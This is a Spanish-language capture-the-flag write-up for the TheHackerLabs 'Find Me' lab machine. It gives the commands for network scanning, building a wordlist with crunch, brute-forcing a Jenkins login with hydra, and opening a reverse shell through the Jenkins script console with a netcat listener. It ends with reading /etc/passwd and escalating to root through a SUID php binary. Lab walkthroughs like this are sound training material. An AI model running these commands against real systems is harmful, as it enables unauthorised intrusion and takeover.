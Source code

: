 ```yaml
---
layout: post
title: "Find Me"
date: 2024-06-18 13:20:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Find Me </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/find-me/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/FindMe/host.png){:.margin}

**1\.** Escando dispositivos activos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/FindMe/arp.png){:.margin}

**2\.** Escaneado puertos y servicios activos de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.7`

![img](/notas/public/img/thehackerlabs/FindMe/nmap.png){:.margin}

**3\.** Revisando la web, por el 80 corre la web apache por defecto y en el 8080 tenemos un panel login.

`http://192.168.1.7:80`

`http://192.168.1.7:8080`

![img](/notas/public/img/thehackerlabs/FindMe/80.png){:.margin}

**4\.** Me conecto por ftp, encuentro un archivo, lo descargo para ver el contenido.

`ftp 192.168.1.7`

`dir`

`get ayuda.txt`

`cat ayuda.txt`

![img](/notas/public/img/thehackerlabs/FindMe/ftp.png){:.margin}
![img](/notas/public/img/thehackerlabs/FindMe/ayudatxt.png){:.margin}

**5\.** Creando el diccionario para la contraseña.

`crunch 5 5 -t p@@@a -o dict.txt`

`cat dict.txt`

![img](/notas/public/img/thehackerlabs/FindMe/crunch.png){:.margin}

**6\.** Haciendo fuerza bruta al login de jenkins.

`hydra -l geralt -P dict.txt -f 192.168.1.7 -s 8080 http-get`

![img](/notas/public/img/thehackerlabs/FindMe/hydra.png){:.margin}

   **7\.** Ya puedo acceder al jenkins.

![img](/notas/public/img/thehackerlabs/FindMe/jenkins.png){:.margin}

**8\.** Podemos hacer uso de la consola de jenkins, (Administrar jenkins-Script console).

![img](/notas/public/img/thehackerlabs/FindMe/console.png){:.margin}

**9\.** Obteniendo un reverse shell, podemos usar [revshell](https://www.revshells.com/) para generar codigo groovy.

_9.1- Genero la revershe shell en groovy_

![img](/notas/public/img/thehackerlabs/FindMe/revshell.png){:.margin}

_9.2- Me pongo en escucha_

`sudo nc -nlvp 443`

_9.3- Me envio la shell y obtengo la conexion_

![img](/notas/public/img/thehackerlabs/FindMe/execute.png){:.margin}
![img](/notas/public/img/thehackerlabs/FindMe/ncok.png){:.margin}

**10\.** Veo que tenemos el usuario geralt, pruebo a migrar con la misma contraseña y si, se pudo.

`cat /etc/passwd | grep sh`

`su geralt`

![img](/notas/public/img/thehackerlabs/FindMe/catpasswd.png){:.margin}

**11\.** Buscando binarios SUID, tenemos el php.

`cd /home/geralt`

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/thehackerlabs/FindMe/suid.png){:.margin}

**12\.** Escalando privilegios a root. [gtfobins](https://gtfobins.github.io/gtfobins/php/#suid).

`/usr/bin/php8.2 -r "pcntl_exec('/bin/bash', ['-p']);"`

![img](/notas/public/img/thehackerlabs/FindMe/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>